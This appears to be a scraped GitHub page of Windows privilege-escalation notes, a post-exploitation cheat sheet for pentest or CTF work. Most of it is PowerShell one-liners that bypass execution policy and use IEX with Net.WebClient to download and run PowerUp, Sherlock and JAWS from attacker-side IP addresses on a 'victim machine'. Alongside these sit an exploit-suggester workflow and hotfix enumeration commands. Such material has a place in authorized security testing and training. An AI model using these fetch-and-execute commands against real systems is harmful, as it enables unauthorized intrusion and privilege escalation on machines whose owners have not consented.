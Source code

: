 https://github.com/frizb/Windows-Privilege-Escalation


###powershell with Priv checker
```
PS C:\Users\merlin\Desktop> PS C:\Users\merlin\Desktop> powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"

c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/PowerUp.ps1') ; Invoke-AllChecks"

c:\>powershell.exe -ExecutionPolicy Bypass -noLogo -Command "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/powerup.ps1') ; Invoke-AllChecks"

c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/Sherlock.ps1') ; Find-AllVulns"

If you have your ps1 file downloaded to the victim machine then run using this
c:\>powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"

c:\>powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
```
#
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.124:8111/Sherlock.ps1'); Find-AllVulns

Post Exploit Enum Scripts:
JAWS - Just Another Windows (Enum) Script
```
\Inetpub>icacls wwwroot
```
Usage:

Run from within CMD shell and write out to file.

powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://10.10.15.24/jaws.ps1','C:\Windows\temp\jaws.ps1')
CMD C:\Windows\temp> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
Run from within CMD shell and write out to screen.

CMD C:\temp> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1
Run from within PS Shell and write out to file.

PS C:\temp> .\jaws-enum.ps1 -OutputFileName Jaws-Enum.txt
WinPrivCheck by ihack4falafel

Sherlock – New one is Watson
```
PS C:\inetpub\drupal-7.54> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.124:8000/Sherlock.ps1') ; Find-AllVulns
C:\inetpub\drupal-7.54>powershell.exe -ExecutionPolicy Bypass -File jaws-enum.ps1
```
PentestMonkey Windows-privesc-check is standalone executable that runs on Windows systems. It tries to find misconfigurations that could allow local unprivileged users to escalate privileges to other users or to access local apps (e.g. databases).

Exploit Suggester For this one, we need to grab the output of systeminfo and then run it against the script. -- Update the database: ./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2018-10-28-mssb.xlsx --systeminfo winsysinfo.txt
OR
-- If we only know about the Operating System name and not much about the hot-fixes, then possible exploits for an operating system can be used without hotfix data
```
./windows-exploit-suggester.py --database 2018-10-28-mssb.xlsx --ostext 'windows server 2008 r2'
```
```
wmic qfe get Caption,Description,HotFixID,InstalledOn

https://guide.offsecnewbie.com/privilege-escalation/windows-pe
```
